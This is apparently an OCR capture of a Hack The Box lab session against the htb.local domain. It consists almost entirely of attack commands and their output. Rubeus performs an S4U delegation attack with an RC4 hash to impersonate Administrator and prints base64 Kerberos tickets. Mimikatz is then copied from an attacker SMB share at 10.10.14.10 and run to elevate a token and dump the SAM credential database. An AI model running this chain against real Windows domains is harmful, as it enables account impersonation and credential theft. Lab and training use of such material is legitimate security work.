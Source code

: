 ```powershell
PS C:\Users\Administrator\Documents> .\Rubeus.exe s4u /user:attackersystem$ /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /impersonateuser:Administrator /msdsspn:http/web.htb.local /domain:htb.local /ptt  

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.3

[*] Action: S4U

[*] Using rc4_hmac hash: 32ED87BDB5FDC5E9CBA88547376818D4
[*] Building AS-REQ (w/ preauth) for: 'htb.local\attackersystem$'
[*] Using domain controller: 192.168.3.203:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIE/jCCBPqgAwIBBaEDAgEWooIEFTCCBBFhggQNMIIECaADAgEFoQsbCUhUQi5MT0NBTKIeMBygAwIB
      AqEVMBMbBmtyYnRndBsJaHRiLmxvY2Fso4ID0zCCA8+gAwIBEqEDAgECooIDwQSCA70ChJzxn2/YgfCI
      TjegtHjwUzzFILuP8PwqhwEwiTchLluMMnw4SbH5IwwQ0dmq81maSaxCRauA68z2x0nZqqjduK/sMdsE
      KR4r4xqbkYAtlRaeXgJGSt0Ilxznnb+40pfLB/bjLQmFGfn4A0S9KlIEbqP2b3Ep9Tlifxc75Xurjccu
      fx1v6GCtgcVfSPtZdB2TILpSG4rPx/wHtmJBE5LK6fpupsK+UL5hL0ASBnnoo+aUbT/xZlc3cP7XpovV
      ibaVNT7jGK04W6XQo9vpNiLOOQH1l93uF/CTbJ0PN6yOVd9jBNoZxcf8DupugBeqmExPlWpF6cii7Tjr
      1H3nnDBlDyRqxN4ChchGPAh9Zk0zHgPN5kbsrqYhsY/qWUroa5erDc5SVuIF6P1CqxouXCPescqH72IN
      ybe4ZBuvpv/xRZRiEySquoImsnEVpRpzu+bMYtHfOc66uKiz9N+teqx7vOD+nMXbk9qGD8jUIibTWdg8
      TAxnwnp47k8C+zKoLiwTjWUi+Pogkj8Uo7taWvmodxohTWE3cH9/RUeay+8YU+RvBBn+QCpxEe5QIpmf
      Gb1CDoZ7MNbc4HtS550wGxulw1f1If9eufmwL5z68dn7xXyy2hUQf4XDRqTdtABDBwh8shYBbG/lEbgZ
      4AIcG2pESETw2SXbwoQDFcD9e6FnrdneY8UZ+eUQDxoZI8ydem6piXXAbFMWQxM+21zJXp+hf2ifwT/S
      LQUTZdtxtOJdxbVwVW+3s9mKSEQpnN3+PuZIiH1tPkHb98cM/beG94YPb8d+xIIGjruoPUsa5/izQ9iY
      FZ11107P5e3QqoWWxyA7AMBXXv3N2pQTISAHQQ44NhkGicybSTXcOe5pZZV4dEpOhxSQfU4StCrIjHCp
      cvhs79c0uS2zTQ/WdEO99r9PoD2n/WEm5Rf+TOVewMFw0Ac5bNX/5e8LBOOm+hb/kTSpA7T2zzqR+qDq
      KBD53aQCjaSrapjQLhxmJTAoKtjHRpQXk1Lhx8+AGD6Jq/osZ0Dq3ROFtmJkFPURlBxR4BitDTIU718d
      hdpHrdGXWw6Cf8PX11ZcSCLEKX7HN6CeRJe+JTn8zs8eKJJKb5ryxU06hBXFY1r+Ts8subO9CkrPon8h
      f3P+AUF7r3z8fJq4qPYfX49fkVxHdPYfD9RdDluGn2Oa/r2PhhkGo1xeLF+Tfg87Tj4nJXlWBG3P6pdD
      i42dcuWPy9mYJrIZhEz659dIhIJ+hiaonvm+5+cA7bKVghk01agwdet0aPhd0W+jgdQwgdGgAwIBAKKB
      yQSBxn2BwzCBwKCBvTCBujCBt6AbMBmgAwIBF6ESBBCEC4iuHAxmnekBkwS3uuo6oQsbCUhUQi5MT0NB
      TKIcMBqgAwIBAaETMBEbD2F0dGFja2Vyc3lzdGVtJKMHAwUAQOEAAKURGA8yMDIzMDQyOTAzMTQxMlqm
      ERgPMjAyMzA0MjkxMzE0MTJapxEYDzIwMjMwNTA2MDMxNDEyWqgLGwlIVEIuTE9DQUypHjAcoAMCAQKh
      FTATGwZrcmJ0Z3QbCWh0Yi5sb2NhbA==


[*] Action: S4U

[*] Building S4U2self request for: 'attackersystem$@HTB.LOCAL'
[*] Using domain controller: dc1.htb.local (192.168.3.203)
[*] Sending S4U2self request to 192.168.3.203:88
[+] S4U2self success!
[*] Got a TGS for 'administrator' to 'attackersystem$@HTB.LOCAL'
[*] base64(ticket.kirbi):

      doIFQjCCBT6gAwIBBaEDAgEWooIEXTCCBFlhggRVMIIEUaADAgEFoQsbCUhUQi5MT0NBTKIcMBqgAwIB
      AaETMBEbD2F0dGFja2Vyc3lzdGVtJKOCBB0wggQZoAMCARehAwIBAaKCBAsEggQHxjCHrGk75BLfMhwB
      i2j8R0nBHGsVdhhdlOwmOzmHKOVgKzOZWV0i8XiwENqndAq1HXTlvYB9yMXVLHX05WOOC4AY43Hx9QrQ
      Nhjx71XX4aBoG0ZkkD92NpR0f8+LR0IzOCBKaT+wS6Ie3vXdQSJb/H6I1yTlftUFBIxWD39/nTlaW+sd
      IVSG0CEcyaS+kESRvfwUlAjGKAngpkm+yYchHK0GaZDqSlFouQ+VJHI7hyJNT5pxsR6F5bKDhwPyTnj3
      30ltI102p8k8eHjF9HMV1gH8M8SpetwCNQ5q4k/dY1ojB5o6u2lE2hu+Uv3g7mV9ZmUoI9PT7RQyg+TN
      ME0aiDMOwRb2ppSOJyQ5tGxVSIoJHEoAjt3YTu/VibZc5cLPFOG60jItHWL7AnP2YW6xWJXNxw3LqwDa
      NmZWiceQPykKMSJn2ynce7XotpuAIgfEYfOFVjQn0QGVs759W6klxLAVenfpxaTIvimuscJnap2XrH0N
      QAZ8attbil6941TuA5HG6LdHgnlIopP2MDfERRuz3LACETNHv3EHqvBelAa6YRTNjO0iPAndcLzoXrY0
      B4ax9VwKBIOxFhrbc8xT70GvDYd1zUhkyEexLJ7RN/Ly+33YxyzIxK5fupFiA6hvoVA4yyk7Qvg6vWkH
```

[dev.htb.local]: PS C:\Users\Administrator\Documents> whoami
[dev.htb.local]: PS C:\Users\Administrator\Documents>
[dev.htb.local]: PS C:\Users\Administrator\Documents> cp \\10.10.14.10\kali\mimikatz.exe .
[dev.htb.local]: PS C:\Users\Administrator\Documents> .\mimikatz.exe 'token::elevate' 'lsadump::sam' exit
[dev.htb.local]: PS C:\Users\Administrator\Documents>